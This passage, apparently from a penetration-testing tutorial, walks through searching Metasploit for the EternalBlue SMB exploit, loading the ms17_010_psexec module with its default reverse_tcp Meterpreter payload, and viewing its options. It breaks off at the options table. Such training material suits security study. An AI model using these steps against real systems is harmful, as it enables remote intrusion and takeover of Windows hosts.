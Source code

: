 Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

```
msf6 > search exploit eternalblue

Matching Modules
================

#  Name                                           Disclosure Date  Rank     Check  Description   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010

```

Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

```
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

```